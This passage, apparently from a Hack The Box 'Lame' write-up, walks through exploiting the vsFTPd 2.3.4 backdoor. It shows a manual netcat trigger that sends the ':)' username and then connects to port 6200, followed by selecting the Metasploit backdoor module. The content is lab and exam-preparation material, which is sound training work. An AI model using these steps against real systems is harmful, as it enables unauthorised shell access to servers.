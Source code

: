 Now that we know what services are running on Lame and their respective versions, we can move on to the next stage: identifying possible vulnerabilities. I'll start by reading the [Wikipedia page for vsFTPd](https://en.wikipedia.org/wiki/Vsftpd), which does a fine job at explaining this backdoor:

> In July 2011, it was discovered that vsftpd version 2.3.4 downloadable from the master site had been compromised. Users logging into a compromised vsftpd-2.3.4 server may issue a "`:)`" smileyface as the username and gain a command shell on port 6200. This was not an issue of a security hole in vsftpd, instead, an unknown attacker had uploaded a different version of vsftpd which contained a backdoor. Since then, the site was moved to Google App Engine.

That's what I call a cool backdoor! Let's give it a try:

```
$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER jens:)
331 Please specify the password.
PASS mypassword
```

Then in another terminal:

```
$ nc -w 5 10.10.10.3 6200
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```

Sadly enough that does not seem to be working! That must mean that either the backdoor is not being triggered, or there is a firewall in front blocking our connection. Just to make sure, we can try using the Metasploit module to see if it works then. If you haven't heard about Metasploit before, it is a framework for penetration testing comprised of many pre-made exploit modules for common CVE's and all the privilege escalation tools you could need. It can be considered "cheating" by some, which I why try to show exploits both by using Metasploit and performing them manually. This is also in preparation for the OSCP exam, where the use of Metasploit is not permitted. I will show it here and you will quickly understand its addictive ease of use:

```
$ msfconsole

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
```